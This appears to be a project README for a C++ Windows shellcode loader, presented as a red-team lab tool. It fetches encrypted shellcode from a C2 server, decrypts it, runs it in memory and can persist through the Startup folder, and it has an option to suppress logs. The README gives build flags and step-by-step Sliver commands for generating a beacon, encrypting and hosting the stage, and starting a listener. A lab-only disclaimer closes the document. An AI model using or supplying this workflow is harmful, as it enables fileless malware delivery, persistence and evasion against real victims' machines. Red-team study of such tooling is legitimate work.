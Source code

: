 # sliverWrapper.cpp – Learning Tool / Red Teaming Lab

## Introduction

`sliverWrapper.cpp` is a **shellcode loader written in C++ for Windows** that supports downloading, decrypting, and executing shellcode **in memory** from a C2 server.  
It can be used with **shellcode from Sliver** or **any other staged shellcode** retrieved from a C2 in a lab environment.  
Additionally, the project provides utility functions to encrypt/decrypt files (AES-128-CBC), download files over HTTP(S), and an optional self-copy to the Startup folder for persistence.

---

## Build (MinGW/MSYS2)

Build as a **static** binary (to reduce runtime dependencies):

```sh
g++ sliverWrapper.cpp -o sliverWrapper.exe \
  -lwininet -lssl -lcrypto -lws2_32 -lcrypt32 \
  -static -static-libgcc -static-libstdc++
```

---

## Features

- Download encrypted shellcode from a C2 server over HTTP/HTTPS (proxy configurable).
- Decrypt with AES-128-CBC and execute shellcode in memory (fileless).
- Utility to encrypt/decrypt files for preparing payloads in a lab.
- Optional self-copy to the Startup folder to **test** persistence in a disposable VM.
- Ability to disable all logs/printf to reduce trace noise during experiments.

---

## Usage

This section shows how to use **Sliver C2** to generate shellcode:

1) **Generate shellcode from Sliver**  
   On the Sliver operator machine, create a stage (e.g., HTTP/HTTPS beacon):

   ```text
   generate --http http(s)://<YOUR_IP_OR_DOMAIN>:<YOUR_PORT> -N agent -s /tmp
   ```

   > The loader code defaults to ports **443** (HTTPS) and **80** (HTTP). Adjust if needed to match your lab infrastructure.

2) **Encrypt the shellcode for the lab**  
   - Use the helper function **`encryptFileToBin(...)`** in the source code to encrypt the shellcode file generated in step (1).
   - Ensure **key/iv are 16 bytes**. Output a binary file (e.g., `stage.enc`).

3) **Host the encrypted file over HTTP(S)**  
   - Quick way:  
     ```sh
     python -m http.server 8080
     ```
   - Or use Nginx/Apache. Note the **download URL** (e.g., `http://<HOST>:8080/stage.enc`).

4) **Start the Sliver listener**  
   In Sliver, set up the C2 listener:
   ```text
   http -L <YOUR_IP> -l <YOUR_PORT>
   ```

5) **Run the loader**  
   - Update the **download URL** and **key/IV** in the source configuration (if hardcoding for the lab) or via your parameter mechanism.
   - Rebuild (see _Build_). Run `sliverWrapper.exe` inside your **lab VM**.

---

## Disclaimer

> **For educational and lawful research purposes only.**
>
> - Only run in a personal lab environment or on systems where you have authorization.
> - Do not use in production or on systems outside your control.
> - The author is not responsible for any misuse or legal violations.
